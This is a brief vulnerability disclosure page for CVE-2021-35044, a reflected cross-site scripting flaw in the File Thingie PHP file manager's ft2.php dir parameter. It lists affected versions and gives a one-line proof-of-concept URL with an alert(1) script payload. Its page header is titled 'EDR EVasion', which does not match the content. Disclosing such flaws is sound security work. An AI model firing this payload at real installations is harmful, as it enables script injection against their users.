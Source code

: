 ```yaml
---
layout: default
title: EDR EVasion
parent: Research
nav_order: 3
---
```


# CVE-2021-35044
{: .fs-9 }

File Thingie - XSS Reflected
{: .fs-6 .fw-300 }

---

### Description

File Thingie is a PHP File Manager. It is affected by XSS Reflected via the ft2.php dir parameter.

The versions affected are v2.0, v2.0.8, v2.5.0, v2.5.2, v2.5.3, v2.5.4, v2.5.5, v2.5.6, v2.5.7

### PoC
```yaml
https://example.com/ft2.php?dir=</script><script>alert(1)</script>
```

### Reference

[CVE-2021-35044](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-35044)
